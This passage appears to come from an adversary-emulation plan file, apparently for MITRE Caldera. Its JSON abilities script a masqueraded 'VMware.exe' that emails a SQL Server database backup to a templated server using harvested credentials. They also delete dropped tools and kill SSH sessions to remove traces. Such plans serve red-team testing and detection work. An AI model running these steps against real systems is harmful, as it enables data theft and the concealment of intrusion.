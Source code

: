 ```json
      "ability_id": "885c14a2-bc56-4176-8671-4cb25489ae39",
      "platform": "linux",
      "commands": {
        "sh": "sleep 2;\nrdp_pid=$(pgrep -f \"xfreerdp.*/v:localhost\");\nrdp_window=$(xdotool search --pid \"$rdp_pid\");\nsleep 3; \nxdotool type --window \"$rdp_window\" 'mkdir C:\\Programdata\\Vmware';\nxdotool key --window \"$rdp_window\" Return;\nsleep 3; \nxdotool type --window \"$rdp_window\" 'move C:\\Programdata\\Nt.dat C:\\Programdata\\Vmware\\VMware.exe';\nxdotool key --window \"$rdp_window\" Return;\nsleep 3;\nxdotool type --window \"$rdp_window\" 'cd \"C:\\Program Files\\Microsoft SQL Server\\MSSQL15.MSSQLSERVER\\MSSQL\\Backup\\\"';\nxdotool key --window \"$rdp_window\" Return;\nsleep 3;\nxdotool type --window \"$rdp_window\" 'C:\\ProgramData\\Vmware\\VMware.exe --path=\"sitedata_db.bak\" --to=\"#{exfil.target.email}\" --from=\"#{initial.target.user}@#{network.domain.name}\" --server=\"#{second.target.ip}\" --password='#{initial.target.password}' --chunksize=\"200000\"';\nsleep 1; \nxdotool key --window \"$rdp_window\" Return;\nsleep 15;\n"
      },
      "privilege": "Unknown",
      "tactic": "exfiltration",
      "technique": "Exfiltration Over Alternative Protocol: Exfiltration Over Unencrypted/Obfuscated Non-C2 Protocol",
      "attack_id": "T1048.003"
    },
    {
      "ability_id": "0c5cf9e2-3152-4b4c-9629-2ed7a00da09d",
      "platform": "linux",
      "commands": {
        "sh": "sleep 3;\nrdp_pid=$(pgrep -f \"xfreerdp.*/v:localhost\");\nrdp_window=$(xdotool search --pid \"$rdp_pid\");\nsleep 3; \nxdotool type --window \"$rdp_window\" 'del C:\\ProgramData\\VMware\\VMware.exe';\nsleep 3; \nxdotool key --window \"$rdp_window\" Return;\nsleep 3; \nxdotool type --window \"$rdp_window\" 'rmdir C:\\ProgramData\\VMware';\nsleep 3; \nxdotool key --window \"$rdp_window\" Return;\nsleep 1;\nxdotool type --window \"$rdp_window\" 'exit';\nxdotool key --window \"$rdp_window\" Return;\nsleep 1;\nxdotool type --window \"$rdp_window\" 'exit';\nxdotool key --window \"$rdp_window\" Return;\nsleep 3;\nxdotool type --window \"$rdp_window\" 'exit';\nxdotool key --window \"$rdp_window\" Return;\nsleep 2;\nxdotool type --window \"$rdp_window\" 'del C:\\Windows\\System32\\mom64.exe C:\\Windows\\temp\\Nt.dat C:\\Windows\\System32\\ps.exe';\nxdotool key --window \"$rdp_window\" Return;\nsleep 2;   \nxdotool type --window \"$rdp_window\" 'exit';\nxdotool key --window \"$rdp_window\" Return;\nsleep 2;\n\nkill $(ps aux | grep \"sshd: #{caldera.user.name}\" | grep -v priv | grep -v grep | awk '{print $2}')\n"
      },
      "privilege": "Unknown",
      "tactic": "defense-evasion",
      "technique": "Indicator Removal on Host: File Deletion",
      "attack_id": "T1070.004"
    },
    {
      "ability_id": "d9c9a941-c0e8-4eed-8cc3-6511ad5b9e15",
      "platform": "windows",
      "technique": "File and Directory Discovery",
      "attack_id": "T1083"
    },
    {
      "ability_id": "885c14a2-bc56-4176-8671-4cb25489ae39",
      "platform": "linux",
      "commands": {
        "sh": "sleep 2;\nrdp_pid=$(pgrep -f \"xfreerdp.*/v:localhost\");\nrdp_window=$(xdotool search --pid \"$rdp_pid\");\nsleep 3; \nxdotool type --window \"$rdp_window\" 'mkdir C:\\Programdata\\Vmware';\nxdotool key --window \"$rdp_window\" Return;\nsleep 3; \nxdotool type --window \"$rdp_window\" 'move C:\\Programdata\\Nt.dat C:\\Programdata\\Vmware\\VMware.exe';\nxdotool key --window \"$rdp_window\" Return;\nsleep 3;\nxdotool type --window \"$rdp_window\" 'cd \"C:\\Program Files\\Microsoft SQL Server\\MSSQL15.MSSQLSERVER\\MSSQL\\Backup\\\"';\nxdotool key --window \"$rdp_window\" Return;\nsleep 3;\nxdotool type --window \"$rdp_window\" 'C:\\ProgramData\\Vmware\\VMware.exe --path=\"sitedata_db.bak\" --to=\"#{exfil.target.email}\" --from=\"#{initial.target.user}@#{network.domain.name}\" --server=\"#{second.target.ip}\" --password='#{initial.target.password}' --chunksize=\"200000\"';\nsleep 1; \nxdotool key --window \"$rdp_window\" Return;\nsleep 15;\n"
      },
```